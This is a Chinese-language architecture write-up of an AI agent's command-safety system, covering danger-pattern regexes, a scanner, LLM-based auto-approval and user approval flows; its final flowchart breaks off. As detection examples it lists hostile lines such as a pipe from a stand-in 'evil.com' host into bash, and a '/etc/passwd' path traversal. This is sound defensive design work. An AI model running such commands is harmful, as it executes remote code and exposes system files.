

# Hermes-Agent 命令安全检测架构分析

## 1. 系统概述

Hermes-Agent 的命令安全检测系统是一个多层次、智能化的终端命令安全防护体系。该系统结合了**基于规则的模式匹配**、**基于内容的 AI 安全扫描**、**智能 LLM 风险评估**和**用户审批工作流**，在执行终端命令前进行全方位的安全检测，防止危险命令对系统造成损害。

### 1.1 核心功能特性

| 功能模块 | 描述 |
|---------|------|
| **危险命令检测** | 130+ 正则模式匹配，覆盖文件删除、权限修改、磁盘操作、数据库破坏、系统服务停止等 |
| **Tirith 安全扫描** | 内容级威胁检测，识别 homograph URL、管道注入、终端注入、SSH 钓鱼、代码执行等高级威胁 |
| **智能 LLM 评估** | 辅助 LLM 进行风险评估，自动批准低风险命令，减少用户干扰 |
| **多级审批机制** | 会话级审批、永久白名单、YOLO 模式、Gateway 阻塞队列 |
| **命令规范化** | ANSI 清洗、null 字节移除、Unicode 规范化，防止混淆绕过 |
| **环境隔离** | 容器环境跳过审批、环境变量过滤防止凭证泄露 |

### 1.2 架构设计原则

1. **纵深防御**: 多层检测机制，单一检测失败不导致系统漏洞
2. **最小权限**: 默认阻止危险命令，需明确用户或 AI 审批
3. **智能降噪**: LLM 自动评估，减少误报对用户工作流的干扰
4. **用户可控**: 支持 YOLO 模式、永久白名单、审批超时配置
5. **容错设计**: fail-open/fail-closed 可配置，扫描失败时行为可控
6. **会话隔离**: 多会话并发审批，互不干扰

---

## 2. 软件架构图

### 2.1 整体架构层次图

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                         调用层 (CLI / Gateway / Agent)                        │
│                                                                              │
│   terminal_tool(command, ...)                                                │
│       │                                                                      │
│       ▼                                                                      │
│   check_all_command_guards(command, env_type)                                │
└──────────────────────────────────┬───────────────────────────────────────────┘
                                   │
                                   ▼
┌──────────────────────────────────────────────────────────────────────────────┐
│                   approval.py (命令安全检测编排层)                             │
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  check_all_command_guards(command, env_type)                       │     │
│   │                                                                    │     │
│   │  Phase 1: 收集发现                                                 │     │
│   │    • 跳过容器环境 (docker/singularity/modal/daytona)              │     │
│   │    • 检查 YOLO 模式 / approvals.mode=off                           │     │
│   │    • Tirith 安全扫描                                               │     │
│   │    • 危险命令模式检测                                              │     │
│   │                                                                    │     │
│   │  Phase 2: 决策                                                    │     │
│   │    • 收集未审批的警告 (Tirith findings + 危险模式)                 │     │
│   │    • Smart 审批模式：LLM 风险评估                                  │     │
│   │                                                                    │     │
│   │  Phase 3: 审批                                                    │     │
│   │    • Gateway: 阻塞队列 + threading.Event                           │     │
│   │    • CLI: 交互式提示 (once/session/always/deny)                    │     │
│   └────────────────────────────────────────────────────────────────────┘     │
└──────────────────────────────────────────────────────────────────────────────┘
                                   │
                   ┌───────────────┴───────────────┐
                   │                               │
                   ▼                               ▼
┌─────────────────────────────┐   ┌─────────────────────────────┐
│  tirith_security.py         │   │  approval.py                │
│  (Tirith 安全扫描)            │   │  (危险命令检测)              │
│                             │   │                             │
│  check_command_security()   │   │  detect_dangerous_          │
│                             │   │  command()                  │
│  • 自动安装 (SHA-256 +      │   │                             │
│    cosign 验证)              │   │  DANGEROUS_PATTERNS         │
│  • 执行 tirith scan         │   │  (130+ 危险模式)             │
│  • 解析 findings + summary  │   │                             │
│  • 返回 allow/warn/block    │   │  分类:                      │
│                             │   │  • 文件删除 (rm -rf,        │
│  检测能力:                  │   │    find -delete)            │
│  • Homograph URL 攻击       │   │  • 权限修改 (chmod 777,     │
│  • 管道注入 (curl | bash)   │   │    chown root)              │
│  • 终端注入 (ANSI 转义)     │   │  • 磁盘操作 (mkfs, dd)      │
│  • SSH 钓鱼                  │   │  • 数据库破坏 (DROP TABLE)  │
│  • 代码执行注入             │   │  • 系统服务 (systemctl stop)│
│  • 路径遍历                 │   │  • 自终止保护               │
│  • 命令注入                 │   │  • Git 破坏性操作            │
└─────────────────────────────┘   └─────────────────────────────┘
                   │                               │
                   └───────────────┬───────────────┘
                                   │
                                   ▼
┌──────────────────────────────────────────────────────────────────────────────┐
│                      审批状态管理层 (线程安全)                                 │
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  _session_approved: Dict[session_key, Set[pattern_key]]            │     │
│   │  _permanent_approved: Set[pattern_key]                             │     │
│   │  _gateway_queues: Dict[session_key, List[_ApprovalEntry]]          │     │
│   │  _session_yolo: Set[session_key]                                   │     │
│   └────────────────────────────────────────────────────────────────────┘     │
│                                   │                                          │
│           ┌───────────────────────┼───────────────────────┐                  │
│           ▼                       ▼                       ▼                  │
│   ┌──────────────────┐  ┌──────────────────┐  ┌──────────────────┐          │
│   │ approve_session()│  │ approve_         │  │ is_approved()    │          │
│   │                  │  │ permanent()      │  │                  │          │
│   │ 会话级审批       │  │ 永久审批         │  │ 检查审批状态     │          │
│   └──────────────────┘  └──────────────────┘  └──────────────────┘          │
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐     │
│   │  Gateway 阻塞队列机制                                               │     │
│   │                                                                    │     │
│   │  _ApprovalEntry:                                                   │     │
│   │    • event: threading.Event  (阻塞等待用户响应)                    │     │
│   │    • data: approval_data   (command/description/pattern_keys)      │     │
│   │    • result: "once"/"session"/"always"/"deny"                      │     │
│   │                                                                    │     │
│   │  resolve_gateway_approval():                                       │     │
│   │    • 用户执行 /approve 或 /deny                                    │     │
│   │    • 设置 entry.result + entry.event.set()                         │     │
│   │    • 解除 agent 线程阻塞                                            │     │
│   └────────────────────────────────────────────────────────────────────┘     │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.2 命令安全检测架构图

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                  check_all_command_guards(command, env_type)                  │
│                                                                              │
│  输入: command (shell 命令字符串), env_type (终端后端类型)                      │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Phase 0: 快速路径 (跳过检查)                                         │   │
│  │                                                                      │   │
│  │  if env_type in (docker, singularity, modal, daytona):               │   │
│  │      return {"approved": True}  # 容器环境默认安全                   │   │
│  │                                                                      │   │
│  │  if HERMES_YOLO_MODE or approvals.mode=off:                          │   │
│  │      return {"approved": True}  # YOLO 模式/禁用审批                  │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Phase 1: 收集发现 (Gather Findings)                                  │   │
│  │                                                                      │   │
│  │  ┌────────────────────────────────────────────────────────────────┐ │   │
│  │  │  Tirith 安全扫描                                                │ │   │
│  │  │                                                                │ │   │
│  │  │  check_command_security(command)                               │ │   │
│  │  │    │                                                           │ │   │
│  │  │    ├─ 加载配置                                                  │ │   │
│  │  │    │   • tirith_enabled (default: True)                        │ │   │
│  │  │    │   • tirith_timeout (default: 5s)                          │ │   │
│  │  │    │   • tirith_fail_open (default: True)                      │ │   │
│  │  │    │                                                           │ │   │
│  │  │    ├─ 执行 tirith scan "$command"                              │ │   │
│  │  │    │   • 超时控制：5s                                          │ │   │
│  │  │    │   • 解析 JSON 输出                                         │ │   │
│  │  │    │                                                           │ │   │
│  │  │    └─ 返回结果                                                  │ │   │
│  │  │        • action: "allow" / "warn" / "block"                    │ │   │
│  │  │        • findings: [{severity, title, description, rule_id}]   │ │   │
│  │  │        • summary: 人类可读摘要                                  │ │   │
│  │  └────────────────────────────────────────────────────────────────┘ │   │
│  │                                                                      │   │
│  │  ┌────────────────────────────────────────────────────────────────┐ │   │
│  │  │  危险命令模式检测                                               │ │   │
│  │  │                                                                │ │   │
│  │  │  detect_dangerous_command(command)                             │ │   │
│  │  │    │                                                           │ │   │
│  │  │    ├─ _normalize_command_for_detection()                       │ │   │
│  │  │    │   • strip_ansi()  ANSI 清洗 (ECMA-48 全覆盖)               │ │   │
│  │  │    │   • 移除 null 字节                                           │ │   │
│  │  │    │   • Unicode NFKC 规范化 (防御全角字符混淆)                 │ │   │
│  │  │    │                                                           │ │   │
│  │  │    ├─ 遍历 DANGEROUS_PATTERNS (130+ 正则)                        │ │   │
│  │  │    │   • re.search(pattern, command_lower, IGNORECASE|DOTALL)  │ │   │
│  │  │    │                                                           │ │   │
│  │  │    └─ 返回 (is_dangerous, pattern_key, description)            │ │   │
│  │  └────────────────────────────────────────────────────────────────┘ │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Phase 2: 决策 (Decide)                                               │   │
│  │                                                                      │   │
│  │  收集未审批的警告:                                                   │   │
│  │    warnings = []  # list of (pattern_key, description, is_tirith)    │   │
│  │                                                                      │   │
│  │  if tirith_result["action"] in ("block", "warn"):                   │   │
│  │      tirith_key = f"tirith:{rule_id}"                               │   │
│  │      tirith_desc = _format_tirith_description(tirith_result)        │   │
│  │      if not is_approved(session_key, tirith_key):                   │   │
│  │          warnings.append((tirith_key, tirith_desc, True))           │   │
│  │                                                                      │   │
│  │  if is_dangerous and not is_approved(session_key, pattern_key):     │   │
│  │      warnings.append((pattern_key, description, False))             │   │
│  │                                                                      │   │
│  │  if not warnings:                                                    │   │
│  │      return {"approved": True, "message": None}                     │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Phase 2.5: 智能审批 (Smart Approval) - approvals.mode=smart         │   │
│  │                                                                      │   │
│  │  combined_desc = "; ".join(desc for _, desc, _ in warnings)         │   │
│  │  verdict = _smart_approve(command, combined_desc)                   │   │
│  │                                                                      │   │
│  │  ┌────────────────────────────────────────────────────────────────┐ │   │
│  │  │  _smart_approve(command, description)                          │ │   │
│  │  │                                                                │ │   │
│  │  │  1. 获取辅助 LLM 客户端 (get_text_auxiliary_client)             │ │   │
│  │  │  2. 构建风险评估提示词:                                         │ │   │
│  │  │     "You are a security reviewer..."                           │ │   │
│  │  │     - APPROVE if clearly safe                                   │ │   │
│  │  │     - DENY if genuinely dangerous                               │ │   │
│  │  │     - ESCALATE if uncertain                                     │ │   │
│  │  │  3. 调用 LLM chat.completions.create()                         │ │   │
│  │  │  4. 解析响应，返回 "approve"/"deny"/"escalate"                 │ │   │
│  │  └────────────────────────────────────────────────────────────────┘ │   │
│  │                                                                      │   │
│  │  if verdict == "approve":                                           │   │
│  │      for key, _, _ in warnings:                                     │   │
│  │          approve_session(session_key, key)  # 自动授予会话审批       │   │
│  │      return {"approved": True, "smart_approved": True}              │   │
│  │  elif verdict == "deny":                                            │   │
│  │      return {"approved": False, "smart_denied": True}               │   │
│  │  # verdict == "escalate" → fall through to manual prompt           │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Phase 3: 审批 (Approval)                                             │   │
│  │                                                                      │   │
│  │  combined_desc = "; ".join(desc for _, desc, _ in warnings)         │   │
│  │  has_tirith = any(is_t for _, _, is_t in warnings)                  │   │
│  │                                                                      │   │
│  │  ┌────────────────────────────────────────────────────────────────┐ │   │
│  │  │  Gateway 审批路径 (HERMES_GATEWAY_SESSION)                      │ │   │
│  │  │                                                                │ │   │
│  │  │  1. 创建 _ApprovalEntry                                         │ │   │
│  │  │  2. 加入 _gateway_queues[session_key]                          │ │   │
│  │  │  3. 调用 notify_cb(approval_data) 通知用户                      │ │   │
│  │  │  4. entry.event.wait(timeout=300) 阻塞等待                      │ │   │
│  │  │  5. 用户执行 /approve 或 /deny                                  │ │   │
│  │  │  6. resolve_gateway_approval() 设置 result + event.set()        │ │   │
│  │  │  7. 解除阻塞，处理审批结果                                      │ │   │
│  │  └────────────────────────────────────────────────────────────────┘ │   │
│  │                                                                      │   │
│  │  ┌────────────────────────────────────────────────────────────────┐ │   │
│  │  │  CLI 审批路径 (HERMES_INTERACTIVE)                              │ │   │
│  │  │                                                                │ │   │
│  │  │  prompt_dangerous_approval(command, combined_desc,              │ │   │
│  │  │                          allow_permanent=not has_tirith)        │ │   │
│  │  │                                                                │ │   │
│  │  │  显示: ⚠️ DANGEROUS COMMAND: {description}                      │ │   │
│  │  │        {command}                                                │ │   │
│  │  │  选项：[o]nce | [s]ession | [a]lways | [d]eny                  │ │   │
│  │  │                                                                │ │   │
│  │  │  超时：60s (可配置)                                             │ │   │
│  │  └────────────────────────────────────────────────────────────────┘ │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Phase 4: 持久化审批状态                                              │   │
│  │                                                                      │   │
│  │  for key, _, is_tirith in warnings:                                  │   │
│  │      if choice == "session" or (choice == "always" and is_tirith):  │   │
│  │          approve_session(session_key, key)  # 会话级                 │   │
│  │      elif choice == "always":                                       │   │
│  │          approve_session(session_key, key)  # 会话 + 永久             │   │
│  │          approve_permanent(key)                                     │   │
│  │          save_permanent_allowlist(_permanent_approved)              │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  返回：{"approved": True/False, "message": str, "description": str}         │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.3 Tirith 安全扫描架构

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                    tirith_security.py (Tirith 集成)                           │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  自动安装机制                                                         │   │
│  │                                                                      │   │
│  │  _resolve_tirith_binary()                                            │   │
│  │    │                                                                 │   │
│  │    ├─ 检查缓存 _resolved_path                                        │   │
│  │    ├─ 检查 PATH 中的 tirith 二进制 (shutil.which)                     │   │
│  │    ├─ 检查配置路径 tirith_path                                      │   │
│  │    │                                                                 │   │
│  │    └─ 未找到 → 后台线程安装                                          │   │
│  │        │                                                             │   │
│  │        ├─ 检测目标平台 (Linux x86_64/aarch64, macOS)                 │   │
│  │        ├─ 下载 GitHub Release tarball                                │   │
│  │        ├─ 验证 SHA-256 校验和                                         │   │
│  │        ├─ 可选：cosign 签名验证 (如果 cosign 在 PATH 中)               │   │
│  │        ├─ 解压到 $HERMES_HOME/bin/tirith                             │   │
│  │        ├─ chmod +x 设置执行权限                                       │   │
│  │        └─ 失败持久化：~/.hermes/.tirith-install-failed (24h TTL)     │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  check_command_security(command)                                     │   │
│  │                                                                      │   │
│  │  1. 加载配置                                                         │   │
│  │     • tirith_enabled (default: True)                                 │   │
│  │     • tirith_path (default: "tirith")                               │   │
│  │     • tirith_timeout (default: 5s)                                   │   │
│  │     • tirith_fail_open (default: True)                               │   │
│  │                                                                      │   │
│  │  2. 执行扫描                                                         │   │
│  │     subprocess.run(                                                  │   │
│  │         [tirith_path, "scan", command],                              │   │
│  │         capture_output=True,                                         │   │
│  │         timeout=tirith_timeout                                       │   │
│  │     )                                                                │   │
│  │                                                                      │   │
│  │  3. 解析结果                                                         │   │
│  │     • 退出码：0=allow, 1=block, 2=warn                               │   │
│  │     • JSON stdout: findings + summary + action                       │   │
│  │                                                                      │   │
│  │  4. 错误处理                                                         │   │
│  │     • spawn 错误/超时/未知退出码 → 根据 fail_open 决定               │   │
│  │     • fail_open=True → return {"action": "allow"}                   │   │
│  │     • fail_open=False → return {"action": "block"}                  │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│                                   ▼                                          │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Tirith 检测能力                                                      │   │
│  │                                                                      │   │
│  │  • Homograph URL 攻击                                                 │   │
│  │    - 西里文/希腊字母混淆 (раураl.com vs paypal.com)                  │   │
│  │    - 检测规则：homograph_detection                                    │   │
│  │                                                                      │   │
│  │  • 管道注入                                                           │   │
│  │    - curl http://evil.com | bash                                     │   │
│  │    - wget -qO- url | sh                                              │   │
│  │    - 检测规则：pipe_to_interpreter                                   │   │
│  │                                                                      │   │
│  │  • 终端注入                                                           │   │
│  │    - ANSI 转义序列注入 (CSI, OSC)                                    │   │
│  │    - 检测规则：terminal_injection                                     │   │
│  │                                                                      │   │
│  │  • SSH 钓鱼                                                            │   │
│  │    - 伪造主机密钥验证                                                 │   │
│  │    - 检测规则：ssh_fingerprint_mismatch                              │   │
│  │                                                                      │   │
│  │  • 代码执行注入                                                       │   │
│  │    - eval, exec, subprocess 注入                                     │   │
│  │    - 检测规则：code_execution                                        │   │
│  │                                                                      │   │
│  │  • 文件路径遍历                                                       │   │
│  │    - ../../../etc/passwd                                             │   │
│  │    - 检测规则：path_traversal                                        │   │
│  │                                                                      │   │
│  │  • 命令注入                                                           │   │
│  │    - $(cmd), `cmd`, ; cmd, | cmd                                     │   │
│  │    - 检测规则：command_injection                                     │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 2.4 会话审批状态管理架构

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                   approval.py (会话审批状态管理)                               │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  全局状态变量 (线程安全)                                               │   │
│  │                                                                      │   │
│  │  _lock = threading.Lock()  # 保护所有状态变量                        │   │
│  │  _pending: Dict[session_key, approval_data]                          │   │
│  │  _session_approved: Dict[session_key, Set[pattern_key]]              │   │
│  │  _permanent_approved: Set[pattern_key]                               │   │
│  │  _session_yolo: Set[session_key]                                     │   │
│  │  _gateway_queues: Dict[session_key, List[_ApprovalEntry]]            │   │
│  │  _gateway_notify_cbs: Dict[session_key, notify_callback]             │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                   │                                          │
│           ┌───────────────────────┼───────────────────────┐                  │
│           ▼                       ▼                       ▼                  │
│  ┌──────────────────┐  ┌──────────────────┐  ┌──────────────────┐          │
│  │ approve_session()│  │ approve_         │  │ is_approved()    │          │
│  │                  │  │ permanent()      │  │                  │          │
│  │ with _lock:      │  │ with _lock:      │  │ with _lock:      │          │
│  │   _session_      │  │   _permanent_    │  │   # 检查永久     │          │
│  │   approved.      │  │   approved.      │  │   if any(alias   │          │
│  │   setdefault(    │  │   add(pattern_   │  │   in _permanent_ │          │
│  │     session_key, │  │   key)           │  │   _approved)     │          │
│  │     set()        │  │   save_          │  │   # 检查会话     │          │
│  │   ).add(         │  │   permanent_     │  │   session_       │          │
│  │     pattern_key  │  │   allowlist()    │  │   approvals =    │          │
│  │   )              │  │                  │  │   _session_      │          │
│  │                  │  │                  │  │   approved.get(  │          │
│  │                  │  │                  │  │     session_key, │          │
│  │                  │  │                  │  │     set()        │          │
│  │                  │  │                  │  │   )              │          │
│  │                  │  │                  │  │   return any(    │          │
│  │                  │  │                  │  │     alias in     │          │
│  │                  │  │                  │  │     session_     │          │
│  │                  │  │                  │  │     approvals    │          │
│  │                  │  │                  │  │   for alias in   │          │
│  │                  │  │                  │  │   aliases)       │          │
│  └──────────────────┘  └──────────────────┘  └──────────────────┘          │
│                                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Gateway 阻塞队列机制                                                 │   │
│  │                                                                      │   │
│  │  _ApprovalEntry:                                                     │   │
│  │    __slots__ = ("event", "data", "result")                          │   │
│  │    event: threading.Event  # 阻塞/唤醒机制                           │   │
│  │    data: approval_data  # command/description/pattern_keys           │   │
│  │    result: str  # "once"/"session"/"always"/"deny"                  │   │
│  │                                                                      │   │
│  │  submit_pending():                                                   │   │
│  │    with _lock:                                                       │   │
│  │      entry = _ApprovalEntry(approval_data)                          │   │
│  │      _gateway_queues.setdefault(session_key, []).append(entry)      │   │
│  │                                                                      │   │
│  │  resolve_gateway_approval():                                         │   │
│  │    with _lock:                                                       │   │
│  │      queue = _gateway_queues.get(session_key)                       │   │
│  │      targets = [queue.pop(0)]  # FIFO 或全部                         │   │
│  │    for entry in targets:                                             │   │
│  │      entry.result = choice  # "once"/"session"/"always"/"deny"      │   │
│  │      entry.event.set()  # 唤醒阻塞线程                               │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
└──────────────────────────────────────────────────────────────────────────────┘
```

---

## 3. 核心业务流程

### 3.1 命令安全检测完整流程

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                         命令安全检测完整流程                                  │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                            │
│  ┌────────────────────────────────────────────────────────────────────┐   │
│  │  开始                                                               │   │
│  └──────────────────────────────────┬───────────────────────────────┘   │
│                                       │                                   │
│                                       ▼                                   │
│  ┌────────────────────────────────────────────────────────────────────┐   │
│  │  env_type 是 docker/singularity/modal/daytona？                    │   │
│  └──────────────────────────────────┬───────────────────────────────┘   │
│               ┌─────────────────────┴─────────────────────┐               │
│               ▼                                           ▼               │
│  ┌───────────────────────────┐         ┌───────────────────────────┐   │
│  │ 跳过检查                   │         │ YOLO 模式或                │   │
│  │ 直接执行                   │         │ approvals.mode=off？       │   │
│  └─────────────┬─────────────┘         └─────────────┬─────────────┘   │
│                │                                           │               │
│                │                   ┌─────────────────────┴─────────────┐   │
│                │                   ▼                                   ▼   │
│                │     ┌───────────────────────────┐   ┌───────────────────────────┐   │
│                │     │ 跳过检查                   │   │ Phase 1: 收集发现          │   │
│                │     │ 直接执行                   │   └─────────────┬─────────────┘   │
│                │     └─────────────┬─────────────┘                 │               │
│                │                   │                                 ▼               │
│                │                   │           ┌────────────────────────────────────┐   │
│                │                   │           │ 调用 Tirith 扫描                   │   │
│                │                   │           │ check_command_security            │   │
│                │                   │           └─────────────┬────────────────────┘   │
│                │                   │                         │                       │
│                │                   │                         ▼                       │
│                │                   │           ┌────────────────────────────────────┐   │
│                │                   │           │ Tirith verdict                    │   │
│                │                   │           └─────────────┬────────────────────┘   │
│                │                   │                         │                       │
│                │                   │         ┌──────────────┴──────────────┐         │
│                │                   │         ▼                               ▼         │
│                │                   │  ┌────────────────┐   ┌────────────────────────┐ │
│                │                   │  │ allow          │   │ warn/block            │ │
│                │                   │  └───────┬────────┘   │ 收集 Tirith findings  │ │
│                │                   │          │             │ tirith_key =          │ │
│                │                   │          │             │ "tirith:rule_id"      │ │
│                │                   │          │             └───────────┬────────────┘ │
│                │                   │          │                         │             │
│                │                   │          │                         ▼             │
│                │                   │          │         ┌────────────────────────────────────┐   │
│                │                   │          │         │ 调用 detect_dangerous_command    │   │
│                │                   │          │         └─────────────┬────────────────────┘   │
│                │                   │          │                       │                       │
│                │                   │          │                       ▼                       │
│                │                   │          │         ┌────────────────────────────────────┐   │
│                │                   │          │         │ 匹配危险模式？                     │   │
│                │                   │          │         └─────────────┬────────────────────┘   │
│                │                   │          │               ┌───────┴────────┐             │
│                │                   │          │               ▼                ▼             │
│                │                   │          │    ┌──────────────┐  ┌──────────────┐   │
│                │                   │          │    │ 否           │  │ 是            │   │
│                │                   │          │    └──────┬───────┘  │ 收集危险模式   │   │
│                │                   │          │           │         │ pattern_key,   │   │
│                │                   │          │           │         │ description    │   │
│                │                   │          │           │         └───────┬────────────┘   │
│                │                   │          │           │                 │                 │
│                │                   │          │           └────────┬────────┘                 │
│                │                   │          │                    │                          │
│                │                   │          │                    ▼                          │
│                │                   │          │         ┌────────────────────────────────────┐   │
│                │                   │          │         │ 有任何警告？                       │   │
│                │                   │          │         └─────────────┬────────────────────┘   │
│                │                   │          │               ┌───────┴────────┐             │
│                │                   │          │               ▼                ▼             │
│                │                   │          │    ┌──────────────┐  ┌──────────────────────┐ │
│                │                   │          │    │ 无           │  │ 有                   │ │
│                │                   │          │    └──────┬──────┘  │ Phase 2: 决策        │ │
│                │                   │          │           │         └──────────┬───────────┘ │
│                │                   │          │           │                    │             │
│                │                   │          │           ▼                    ▼             │
│                │                   │          │    ┌──────────────┐  ┌──────────────────────┐ │
│                │                   │          │    │ 允许执行     │  │ 检查会话/永久审批   │ │
│                │                   │          │    └──────┬──────┘  └──────────┬───────────┘ │
│                │                   │          │           │                    │             │
│                │                   │          │           │         ┌──────────┴──────────┐   │
│                │                   │          │           │         ▼                       ▼   │
│                │                   │          │           │    ┌──────────┐   ┌────────────────────┐ │
│                │                   │          │           │    │          │   │ approvals.mode=    │ │
│                │                   │          │           │    │          │   │ smart？             │ │
│                │                   │          │           │    │          │   └─────────┬──────────┘ │
│                │                   │          │           │    │          │              │            │
│                │                   │          │           │    │          │    ┌──────────┴──────────┐ │
│                │                   │          │           │    │          │    ▼                     ▼ │
│                │                   │          │           │    │          │ ┌──────────┐ ┌──────────────┐ │
│                │                   │          │           │    │          │ │ 是       │ │ manual        │ │
│                │                   │          │           │    │          │ │ 调用辅助  │ │ 提示用户审批  │ │
│                │                   │          │           │    │          │ │ LLM风险   │ └───────┬────────┘ │
│                │                   │          │           │    │          │ │ 评估     │         │          │
│                │                   │          │           │    │          │ └────┬─────┘         │          │
│                │                   │          │           │    │          │      │               │          │
│                │                   │          │           │    │          │      ▼               │          │
│                │                   │          │           │    │          │ ┌──────────────┐     │          │
│                │                   │          │           │    │          │ │ LLM verdict  │     │          │
│                │                   │          │           │    │          │ └──────┬───────┘     │          │
│                │                   │          │           │    │          │        │               │          │
│                │                   │          │           │    │          │   ┌─────┴─────┐     ┌────┴────────┐ │
│                │                   │          │           │    │          │   ▼     │     │     │            │ │
│                │                   │          │           │    │          │ ┌────┐ ┌────┐│     │ Gateway    │ │
│                │                   │          │           │    │          │ │AP- │ │DENY││     │ 会话？      │ │
│                │                   │          │           │    │          │ │PROVE    │     │ └────┬─────────┘ │
│                │                   │          │           │    │          │ └──┬─┘ └─┬──┘│         │          │
│                │                   │          │           │    │          │    │     │    │    ┌─────┴─────────┐ │
│                │                   │          │           │    │          │    │     │    │    ▼               ▼ │
│                │                   │          │           │    │          │    │     │    │ ┌───────────┐ ┌───────────────┐ │
│                │                   │          │           │    │          │    │     │    │ │自动批准    │ │ CLI交互式提示  │ │
│                │                   │          │           │    │          │    │     │    │ │授予会话级  │ │ [o]nce/[s]es- │ │
│                │                   │          │           │    │          │    │     │    │ │审批        │ │ sion/[a]lways/│ │
│                │                   │          │           │    │          │    │     │    │ └─────┬─────┘ │ [d]eny        │ │
│                │                   │          │           │    │          │    │     │    │       │       │       │         │
│                │                   │          │           │    │          │    │     │    │       │       │       ▼         │
│                │                   │          │           │    │          │    │     │    │       │       │ ┌───────────────┐ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ 用户响应       │ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ once/session/  │ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ always/deny   │ │
│                │                   │          │           │    │          │    │     │    │       │       │ └───────┬───────┘ │
│                │                   │          │           │    │          │    │     │    │       │       │         │         │
│                │                   │          │           │    │          │    │     │    │       │       │         ▼         │
│                │                   │          │           │    │          │    │     │    │       │       │ ┌───────────────┐ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ Gateway 阻塞   │ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ 队列等待       │ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ notify_cb     │ │
│                │                   │          │           │    │          │    │     │    │       │       │ │ /approve/deny │ │
│                │                   │          │           │    │          │    │     │    │       │       │ └───────┬───────┘ │
│                │                   │          │           │    │          │    │     │    │       │       │         │         │
│                └───────────────────┼──────────┼───────────┼────┼─────────┼────┼─────┼────┼───────┼─────────┼─────────┘         │
